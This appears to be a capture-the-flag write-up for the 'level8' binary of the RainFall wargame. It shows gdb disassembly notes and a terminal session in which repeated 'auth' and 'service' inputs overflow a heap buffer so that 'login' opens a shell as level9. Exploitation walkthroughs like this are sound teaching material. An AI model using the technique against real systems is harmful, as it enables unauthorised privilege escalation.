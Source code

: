 ```
gdb level8
b main
disass main
```

Instructions at +376, +406 tells us that the main is mainly (lol) a loop.

At +401 `system` can be called with "/bin/sh".

https://c9x.me/x86/html/file_module_x86_id_279.html

+107 : strings of fgets and `"auth "` are compared

+228 : strings of fgets and `"reset"` are compared

+282 : strings of fgets and `"service"` are compared

+343 : strings of fgets and `"login"` are compared

So first we can see that auth needs a space. There's 4 block in the loop that interest us.

By playing a bit with the binary, It's easy to understand that we are in a bit a role play. Using login directly on segfault. By using only "auth" printf still print `(nil), (nil)`, but using "auth " print `(0x804a008), (nil)`. "service" does something in the second address of printed. And "reset" will certainly reset your progression.


After some test I endup with this :
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
login
Password:
0x804a008, (nil)
reset
0x804a008, (nil) 
service
0x804a008, 0x804a008 
login
Password:
0x804a008, 0x804a008
service
0x804a008, 0x804a018 
login
Password:
0x804a008, 0x804a018
service
0x804a008, 0x804a028 
login
$ service
Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]
$ whoami
level9
$
```

End of the run ?

It's a bit weird because system can be called with only 2 "service", and sometimes it needs 3.

Thanks to hex-rays (decompiler), I rewrite the binary code. Basically it overflows the string into an int. The int do not have any assignment but the condition auth->a validates after overflow. The condition to overflow is to write more than 32 bit into the char[].
